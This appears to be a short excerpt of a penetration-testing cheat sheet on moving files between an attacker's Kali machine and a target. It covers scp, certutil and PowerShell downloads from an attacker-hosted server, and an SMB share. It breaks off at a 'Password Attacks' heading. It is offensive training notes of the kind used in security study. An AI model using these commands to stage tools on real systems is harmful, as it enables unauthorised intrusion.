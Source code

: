 Starting the SSH Server
```
sudo systemctl start ssh
```

#### Local to Remote machine

```
scp <<FILE>> <<USERNAME>>@<<IP>>:<<REMOTE_DIRECTORY>>
```

#### Remote to Local machine

```
scp <<USERNAME>>@<<IP>>:/<<FILE_LOCATION>> <<LOCAL_DIRECTORY>>
```

## Windows

### Certutil

```
certutil -urlcache -split -f "http://<<IP>>:<<IP>>/<<FILE>>" <<FILE>>
```

### Powershell

```
iwr -uri http://<<IP>>:<<PORT>>/<<FILE>> -Outfile <<FILE>>
```

```
Invoke-WebRequest http://<<IP>>:<<PORT>>/<<FILE>> -OutFile <<FILE>>
```

### SMBserver

On kali:
```
python3 ~/smbserver.py -smb2support myshare2 . -username user -password pass
```

On windows:
```
net use \\<<IP>>\myshare2
```

In file explorer you can access share on `\\<<IP>>\myshare2`





# Password Attacks

## Mutating Wordlists
